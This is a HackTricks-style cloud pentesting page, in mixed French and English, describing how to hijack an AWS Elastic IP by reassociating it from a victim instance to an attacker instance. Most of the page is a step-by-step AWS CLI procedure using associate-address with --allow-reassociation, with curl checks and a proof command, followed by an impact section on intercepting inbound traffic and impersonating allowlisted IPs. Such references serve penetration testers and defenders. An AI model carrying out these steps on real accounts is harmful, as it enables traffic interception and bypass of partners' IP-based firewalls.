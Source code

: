 # AWS - Elastic IP Hijack for Ingress/Egress IP Impersonation

{{#include ../../../../banners/hacktricks-training.md}}

## Résumé

Abuser de `ec2:AssociateAddress` (et éventuellement `ec2:DisassociateAddress`) pour réassocier un Elastic IP (EIP) depuis une instance/ENI victime vers une instance/ENI attaquante. Cela redirige le trafic entrant destiné à l'EIP vers l'attaquant et permet également à l'attaquant d'initier du trafic sortant avec l'IP publique allowlistée pour contourner les pare-feux des partenaires externes.

## Prérequis
- Target EIP allocation ID in the same account/VPC.
- Instance/ENI de l'attaquant que vous contrôlez.
- Autorisations :
- `ec2:DescribeAddresses`
- `ec2:AssociateAddress` sur l'EIP allocation-id et sur l'instance/ENI de l'attaquant
- `ec2:DisassociateAddress` (optionnel). Remarque : `--allow-reassociation` désassociera automatiquement de l'attachement précédent.

## Attaque

Variables
```bash
REGION=us-east-1
ATTACKER_INSTANCE=<i-attacker>
VICTIM_INSTANCE=<i-victim>
```
1) Allouer ou identifier l'EIP de la victime (le lab alloue un nouveau et l'attache à la victime)
```bash
ALLOC_ID=$(aws ec2 allocate-address --domain vpc --region $REGION --query AllocationId --output text)
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $VICTIM_INSTANCE --region $REGION
EIP=$(aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION --query Addresses[0].PublicIp --output text)
```
2) Vérifier que l'EIP pointe actuellement vers le victim service (ex. vérification d'une banner)
```bash
curl -sS http://$EIP | grep -i victim
```
3) Réassocier l'EIP à l'attacker (se désassocie automatiquement de la victim)
```bash
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $ATTACKER_INSTANCE --allow-reassociation --region $REGION
```
4) Vérifiez que l'EIP se résout maintenant vers le attacker service
```bash
sleep 5; curl -sS http://$EIP | grep -i attacker
```
Preuve (association déplacée) :
```bash
aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION \
--query Addresses[0].AssociationId --output text
```
## Impact
- Inbound impersonation: Tout le trafic vers le hijacked EIP est acheminé vers l'instance/ENI de l'attacker.
- Outbound impersonation: Attacker peut initier du trafic qui semble provenir de l'allowlisted public IP (utile pour bypasser les partner/external source IP filters).

{{#include ../../../../banners/hacktricks-training.md}}
